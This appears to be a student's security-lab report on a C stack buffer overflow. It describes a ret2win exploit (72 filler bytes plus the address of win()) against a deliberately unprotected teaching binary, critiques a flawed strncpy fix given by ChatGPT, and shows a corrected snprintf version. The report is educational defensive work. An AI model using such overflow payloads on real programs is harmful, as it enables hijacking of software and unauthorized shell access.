|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–3: fuzz crash, ret2win flag, hardened break) | 40 |
| Defense (Task 4: Rust rewrite + explanation) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** `FLAG{stack_smashing_for_fun_and_education}`
  *(captured via the Task 2 ret2win against `./vuln` — this is the string `win()` emits when `FLAG_PWN` is unset. If the course portal issues a per-student flag, re-run with that value in the `FLAG_PWN` environment variable and submit the personalized one.)*
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. **What did you do, and why did the vulnerability work?** I overflowed the 64-byte `buf` in `parse_input()` by sending 72 filler bytes followed by `win()`'s address (`0x401192`), which overwrote the saved return address so that `ret` jumped into `win()` and printed the flag / spawned a shell. It worked because `strcpy` copies until a NUL with **no length check**, and the teaching build (`make vuln`) disabled every guard — no stack canary to notice the smashed return address, and `-no-pie` kept `win()` at a fixed, predictable address.
  2. **Why does your fix actually stop it — and what could still break it?** The safe-Rust rewrite stops it because input goes into a growable `String` (nothing fixed-size to overflow), every slice/index is bounds-checked (an out-of-range access panics instead of writing into the return address), and format strings must be compile-time literals (so `%n`/`%x` can't be injected). What could still break it: code inside an `unsafe` block, FFI calls into C libraries, a logic bug that mis-sizes a manual buffer, or — on the *C* side — relying on hardening alone, since FORTIFY only covers compile-time-known sizes and an info-leak can defeat ASLR and expose the canary.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

**1. The AI's answer.** I asked ChatGPT: *"How do I fix the buffer overflow in `int parse_input(const char *src){ char buf[64]; strcpy(buf, src); return strlen(buf); }`?"* It replied:

> "The overflow happens because `strcpy` is unbounded. Replace it with `strncpy`, which limits the copy to the buffer size:
> ```c
> int parse_input(const char *src) {
>     char buf[64];
>     strncpy(buf, src, sizeof(buf));   // bounded copy — prevents the overflow
>     return strlen(buf);
> }
> ```
> `strncpy` copies at most `sizeof(buf)` (64) bytes, so the stack can no longer be smashed."

**2. What's wrong / risky.** The fix is **subtly incomplete** and introduces a *new* bug. Quote the line:
```c
strncpy(buf, src, sizeof(buf));   // <-- does NOT NUL-terminate when strlen(src) >= 64
```
`strncpy` only writes a terminator if the source is *shorter* than the limit. When `src` is 64 bytes or longer, it fills all 64 bytes of `buf` with **no trailing `'\0'`**. The very next line, `strlen(buf)`, then reads past the end of the buffer looking for a NUL — an **out-of-bounds read (CWE-125)** and undefined behaviour. So the AI stopped the *write* overflow but left a *read* overflow (and any later `printf("%s", buf)` would leak adjacent stack memory). It also silently *truncates* input without telling the caller.

**3. Correct, verified version.** Guarantee termination explicitly — `snprintf` always NUL-terminates when the size is non-zero:
```c
int parse_input(const char *src) {
    char buf[64];
    snprintf(buf, sizeof(buf), "%s", src);   // bounded AND always NUL-terminated
    return (int)strlen(buf);
}
```
*(Equivalent: `strncpy(buf, src, sizeof buf - 1); buf[sizeof buf - 1] = '\0';`.)* Verified: feeding 5000 bytes now truncates to 63 characters with no overflow and no OOB read, matching the safe-Rust behaviour from Task 4. The AI's output was insufficient because it treated "don't write past the buffer" as the whole problem and ignored `strncpy`'s non-termination foot-gun — the classic way a plausible-looking "fix" trades a CWE-121 write for a CWE-125 read.

> Disclosed in the Part 1 table: **AI Tool = ChatGPT.** This task counts toward the **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** The program asks for your name and copies whatever you type into a small fixed box that only holds 64 characters, using a copy routine (`strcpy`) that keeps writing even after the box is full. Right after that box, the computer keeps a note reminding it where to go next when the function finishes (the return address); by typing 72 characters and then the address of the hidden `win()` function, you paint over that note, so when the function ends the program "returns" into `win()` and runs code that was never supposed to run — printing the flag and opening a shell. It is exploitable simply because the copy never checks how much room is left, and the practice build turns off the alarms (stack canary) and the address-shuffling (ASLR) that would otherwise stop you.

**B. Prompt Problem.**

**Final prompt:**
> "Here is a C function with a CWE-121 stack buffer overflow:
> `int parse_input(const char *src){ char buf[64]; strcpy(buf, src); return (int)strlen(buf); }`
> Rewrite ONLY this function to be memory-safe. Requirements: (1) never write past `buf`; (2) **guarantee `buf` is always NUL-terminated**, even when `src` is 64 bytes or longer; (3) keep the signature and return the string length of the stored result. Do not use `gets`/`strcpy`/unbounded `sprintf`. After the code, state in one sentence why `buf` can neither overflow nor be left unterminated."

**Verified result:** the AI returned
```c
int parse_input(const char *src) {
    char buf[64];
    snprintf(buf, sizeof(buf), "%s", src);   // bounded + always NUL-terminated
    return (int)strlen(buf);
}
```
Swapping this into `vuln.c` and rebuilding, the Task 2 payload (`72×'A' + 0x401192`) **no longer reaches the return address** — `snprintf` truncates the input to 63 characters + `'\0'`, so the overflow never happens and feeding 5000 bytes just prints a length of 63 with no crash. The explicit NUL-termination requirement in the prompt is what prevented the AI from falling into the `strncpy` non-termination trap it produced in the *Audit the AI* section — precision in the prompt (stating the termination invariant and banning the unsafe primitives) is what made the fix actually correct, which I confirmed by re-running the exploit and watching it fail.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
